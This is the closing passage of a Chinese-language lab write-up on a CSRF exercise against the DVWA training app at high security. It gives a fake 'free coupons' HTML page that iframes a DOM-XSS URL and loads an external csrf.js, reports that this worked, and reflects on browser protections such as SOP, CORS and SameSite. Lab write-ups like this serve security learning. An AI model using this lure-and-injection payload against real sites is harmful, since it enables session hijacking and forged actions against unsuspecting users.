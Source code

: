 ![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f1c2b3c9-ca21-4d4b-8c03-3f33c98152c4/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070743Z&X-Amz-Expires=86400&X-Amz-Signature=f7dd9ba92073096d3b4930b519410b55f784b8d867f5b12384a4b8e511ceb698&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Failed - img tag

看起來 XSS 沒有正常注入到選單，有可能是 img 載入頁面的方式沒辦法正常觸發頁面的 XSS 攻擊 (可能要看目標頁面的 source code 和你的 XSS 的寫法而定)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/55e08915-a569-4c4e-b955-aa5d8b562e94/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070806Z&X-Amz-Expires=86400&X-Amz-Signature=cb8c6f0f6a0fa5436bd5a4f8a7488d9f971b2bedfda26e379eb3384a2cfb0ab9&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

將 `img tag` 改為 `iframe` 試試看

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/27f57182-884e-47be-91f0-0caa2bbe7e31/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070823Z&X-Amz-Expires=86400&X-Amz-Signature=a46d1cb7dec86cb3a03aaded87231ed34f158dd33e466d826da9dca9c5b8895f&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)


```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>test CSRF - high</title>
</head>
<body>
You got free coupons 💸💸💸
<iframe src="http://dvwa.localtest/vulnerabilities/xss_d/?default=English<script src='http://127.0.0.1:8080/csrf.js'>console.log(document.cookie)</script>&default=English#"></iframe>
</body>
</html>
```

### Done - iframe tag

終於成功了 😭

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/13aba80a-7d91-4377-b072-42f0d4c7c705/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070854Z&X-Amz-Expires=86400&X-Amz-Signature=517b497cc5b5433d2c75111855fae41e964aad040ded36db8965ee94b4d830f9&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

透過 iframe 引入可以正常執行 csrf.js 的內容

### 心得

CSRF 是我目前覺得最迂迴且不穩定的技巧，在現代瀏覽器安全限制都不低的清況下，成功率可能不高，而且會需要搭配其他漏洞一起使用，串連其他攻擊方式時也不容易測試，因為有很多小環節要注意．

但練習時可以讓自己重新 review 很多瀏覽器相關的議題 (SOP, CORS, Cookie Tracking Protection, SameSite Cookies Policy 這類的限制)，因為它們都有可能會影響 CSRF．

結論: 攻擊手法或組合越多，攻擊就越脆弱不穩定 (就跟 dependency 越多越容易出錯一樣)，因為要成立的條件越多

---

### Ref

- CSRF Tutorial (DVWA High Security Level) | by Sam Onaro | Mar, 2021 | System Weakness | System Weakness
  [https://systemweakness.com/hackerman-sergio-csrf-tutorial-dvwa-high-security-level-4cba47f2d695](https://systemweakness.com/hackerman-sergio-csrf-tutorial-dvwa-high-security-level-4cba47f2d695)
- A new default Referrer-Policy for Chrome: strict-origin-when-cross-origin  |  Web  |  Google Developers
  [https://developers.google.com/web/updates/2020/07/referrer-policy-new-chrome-default](https://developers.google.com/web/updates/2020/07/referrer-policy-new-chrome-default)
- DVWA CSRF 通关教程 - 御用闲人 - 博客园
  [https://www.cnblogs.com/yyxianren/p/11381285.html](https://www.cnblogs.com/yyxianren/p/11381285.html)
- DVWA 1.10 High等级的CSRF另类通关法 - FreeBuf网络安全行业门户
  [https://www.freebuf.com/articles/web/203301.html](https://www.freebuf.com/articles/web/203301.html)
- [教學] CORS 是什麼? 如何設定 CORS? | Shubo 的程式教學筆記
  [https://shubo.io/what-is-cors/](https://shubo.io/what-is-cors/)
- SOP vs CORS? - DEV Community
  [https://dev.to/caffiendkitten/sop-vs-cors-49l6](https://dev.to/caffiendkitten/sop-vs-cors-49l6)